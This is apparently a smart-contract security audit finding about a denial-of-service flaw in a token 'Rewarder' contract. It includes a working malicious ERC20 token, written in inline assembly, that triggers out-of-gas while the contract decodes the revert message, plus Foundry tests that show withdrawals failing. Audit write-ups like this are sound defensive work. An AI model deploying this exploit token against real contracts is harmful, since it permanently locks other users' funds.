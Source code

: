 ## About the contrat rewarder

### Purpose:

This contract manages a reward system where users can give rewards as tokens to other users by calling giveReward(address _user , IERC20 _token , uint _amount ) with ,specifying the user's address, token address, and reward amount

Users can withdraw their accumulated rewards by calling withdrawRewards() .

## Finding


### [H-1] A Denial of Service (DoS) attack in the Rewarder::giveReward function enables malicious actors to reward malicious tokens to users, thereby impeding their ability to retrieve all of their other rewards. 

**Description:** 

A malicious user can reward a normal user with a malicious token using the `Rewarder::giveReward` function. This token subsequently causes a revert in the `Rewarder::withdrawReward` function for the affected user, thereby preventing them from claiming their rewards.

When a user calls `Rewarder::withdrawReward` , for each reward/token he has , this code snippet runs :

``` java
try token.transfer(msg.sender , amount) {
                delete rewards[msg.sender][i];
            } catch (bytes memory reoson ) {
                string memory revertReoson = getRevertMessage(reoson);
                emit RewardTransferFailed(revertReoson);
            }
```
The hacker can manage to create a token where they override the transfer method in a way it results in a revert/error. They then manipulate the error message from token.transfer in such a way that it triggers an Out of Gas scenario. Specifically, they construct a series of bytes (reason) that, when passed to `rewarder::getRevertMessage`, exhausts the gas when attempting to decode the bytes into a string: `getRevertMessage(reason)`. This action effectively halts the entire transaction, preventing any tokens from being withdrawn.

**Impact:**
A user will never be able to withdraw the tokens he owns ; the tokens will remain stuck in the contract indefinitely.

**Proof of Concept:**
Firstly, let's generate a token that, when rewarded to a user, will hinder them from withdrawing any remaining rewards. These tokens will be permanently locked within the contract.

```java
contract MaliciousToken is ERC20 {
    constructor() ERC20 ("BAD" , "TOKEN") {
        _mint(msg.sender, 100);
    }

    function transfer(address to, uint256 value) public override  returns (bool)  {
        assembly {
            let free_memory := mload(0x40)
            mstore(free_memory , 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_memory , 4) , 0x20)
            mstore(add(free_memory , 36) , 0xfffffffffffffffffffffffffffffff )
            revert(free_memory , 100)
        }
    }

}
```

The transfer method leads to an unavoidable scenario where a revert occurs, with the revert message indicating from "free_memory" to 100. 

The first word, "free memory," stores the selector: bytes4(0x08c379a0). The second word is the head, with 0x20 pointing to the third word.

The third word marks the beginning of the string and should contain the string's size. By inputting a large number in that position, the EVM will endlessly attempt to decode the  fake-large string provided. In reality, it will only parse empty words in memory. But that would be enough to invoke oog.

Let's execute this in Foundry.

To start, let's deploy 10 valid tokens and transfer them to the contract (address(this)). Subsequently, we'll initiate a withdrawal process to retrieve these tokens.

```java
contract GoodToken is ERC20 {
    constructor() ERC20("GOOD" , "TOKEN") {
        _mint(msg.sender, 100);
    }
}
contract testRewarder is Test {
    Rewarder rewarder;
    function setUp() public {
        rewarder = new Rewarder();
    }

    function testReward() public {
        //create a list of tokens
        IERC20[] memory tokens = new IERC20[](10);
        for (uint i=0 ; i<10 ; i++){
            //deploy the token and store its address in the array
            tokens[i] = new GoodToken();
            //we have to approve the rewarder to spend the tokens 
            tokens[i].approve(address(rewarder), 100);
            rewarder.giveReward(address(this), tokens[i] , 100);
        }

        //by the end of this loop , address(this) should have 10 tokens (stored in the array tokens) with a balance of 100 each.
        // Let's create a loop in which we verify this 

        for (uint i=0 ; i<10 ; i++){
            (IERC20 token , uint amount) = rewarder.rewards(address(this) , i);
            assert(token == tokens[i]);
            assert(amount == 100);
        }
    }

    function testWithrawOnlyGoodTokens() public {
        testReward();
        rewarder.withdrawRewards();
        (IERC20 token , uint amount) = rewarder.rewards(address(this) , 0);
        //let's check that all tokens are withrawn 
        assertEq(address(token) ,  address(0));
        assertEq(amount, 0);
    }



```
In a foundry project , Open the terminal and run 
```bash
forge test --match-test testReward -vv
forge test --match-test testWithrawOnlyGoodTokens -vv
```

Both commands will return that the functions have been successfully executed.

Now, let's attempt to reward the contract with 10 valid tokens along with 1 malicious token, and then test whether the function will fail or not:

```java
    function testWithdrawMalicious() public {
        testReward();
        IERC20 maliciousToken = new MaliciousToken();
        maliciousToken.approve(address(rewarder), 1);
        rewarder.giveReward(address(this), maliciousToken , 1);

        vm.expectRevert();
        rewarder.withdrawRewards();
    }
```
Open the terminal and run :

```bash
forge test --match-test testWithdrawMalicious -vv
```
"And the test should pass once more, indicating that a revert occurred."
Below is the test script, please note that it will only function within a Foundry project environment :

```java
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import {Rewarder} from "../src/Rewarder.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20 ("BAD" , "TOKEN") {
        _mint(msg.sender, 100);
    }

    function transfer(address to, uint256 value) public override  returns (bool)  {
        assembly {
            let free_memory := mload(0x40)
            mstore(free_memory , 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_memory , 4) , 0x20)
            mstore(add(free_memory , 36) , 0xfffffffffffffffffffffffffffffff )
            revert(free_memory , 100)
        }
    }

}

contract GoodToken is ERC20 {
    constructor() ERC20("GOOD" , "TOKEN") {
        _mint(msg.sender, 100);
    }
}


contract testRewarder is Test {
    Rewarder rewarder;
    function setUp() public {
        rewarder = new Rewarder();
    }

    function testReward() public {
        IERC20[] memory tokens = new IERC20[](10);
        for (uint i=0 ; i<10 ; i++){
            tokens[i] = new GoodToken();
            tokens[i].approve(address(rewarder), 2);
            rewarder.giveReward(address(this), tokens[i] , 2);
        }

        for (uint i=0 ; i<10 ; i++){
            (IERC20 token , uint amount) = rewarder.rewards(address(this) , i);
            assert(token == tokens[i]);
            assert(amount == 2);
        }
    }

    function testWithrawOnlyGoodTokens() public {
        testReward();
        rewarder.withdrawRewards();
        (IERC20 token , uint amount) = rewarder.rewards(address(this) , 0);
        assertEq(address(token) ,  address(0));
        assertEq(amount, 0);
    }

    function testWithdrawMalicious() public {
        testReward();
        IERC20 maliciousToken = new MaliciousToken();
        maliciousToken.approve(address(rewarder), 1);
        rewarder.giveReward(address(this), maliciousToken , 1);

        vm.expectRevert();
        rewarder.withdrawRewards();
    }
}

```
